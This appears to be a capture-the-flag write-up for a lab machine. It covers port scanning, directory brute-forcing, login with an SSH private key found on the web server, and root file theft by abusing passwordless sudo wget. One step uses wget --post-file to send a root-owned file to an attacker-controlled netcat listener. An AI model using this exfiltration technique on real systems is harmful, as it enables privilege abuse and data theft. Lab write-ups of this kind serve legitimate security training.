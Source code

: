 

IP= 10.10.124.163

### Enumeration

```
$ nmap -p- -T5 10.10.124.163
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-01 19:53 EST
Warning: 10.10.124.163 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.124.163
Host is up (0.17s latency).
Not shown: 65120 closed tcp ports (conn-refused), 413 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 876.28 seconds
```

```
$ dirb http://10.10.124.163/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jan  1 20:58:41 2023
URL_BASE: http://10.10.124.163/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.124.163/ ----
+ http://10.10.124.163/index.html (CODE:200|SIZE:11374)                                                              
+ http://10.10.124.163/server-status (CODE:403|SIZE:278)                                                             
==> DIRECTORY: http://10.10.124.163/sitemap/ 

Entering directory: http://10.10.124.163/sitemap/ ----
==> DIRECTORY: http://10.10.124.163/sitemap/.ssh/

```
- Site contains developement team information (potential users for ssh login)
- RSA ID found in /.ssh directory discovered with dirb

```
$ chmod 600 id_rsa
```

```
$ searchsploit OpenSSH
...
OpenSSH 7.2p2 - Username Enumeration
```

- Attempted to enumerate a list of usernames via Metasploit module and custom wordlist of discovered devs, but produced a bunch of false positives, so it is back to enumeration.

- Discovered JS comment in source page of default apache page that could be used as a username:

" <!- Jessie don't forget to udate the webiste --> "

--------------------------------------------------

```bash
$ ssh -i id_rsa  jessie@10.10.239.158

Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos
...
jessie@CorpOne:~$ cd Documents
jessie@CorpOne:~/Documents$ ls
user_flag.txt
jessie@CorpOne:~/Documents$ cat user_flag.txt
[REDACTED]
```

### Privilege Escalation

- User has unrestricted access as far as sudo permissions go, but
we can see that the user has perms to use wget as root without a password. 

"wget is a utility for non-interactive download of files from the Web. It supports HTTP, HTTPS, and FTP protocols, as well as retrieval through HTTP proxies."

```
jessie@CorpOne:~$ cd /
jessie@CorpOne:/$ ls
bin  boot  cdrom  dev  etc  home  initrd.img  initrd.img.old  lib  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var  vmlinuz
jessie@CorpOne:/$ cd root
-bash: cd: root: Permission denied
jessie@CorpOne:/$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

```
Victim Machine:

jessie@CorpOne:/$ sudo wget --post-file=root/root_flag.txt 10.2.1.180:4444
--2023-01-04 05:57:38--  http://10.2.1.180:4444/
Connecting to 10.2.1.180:4444... connected.
HTTP request sent, awaiting response... 

Local Machine:

$ nc -lvnp 444

listening on [any] 4444 ...
connect to [10.2.1.180] from (UNKNOWN) [10.10.239.158] 36248
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.2.1.180:4444
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

[REDACTED]
```
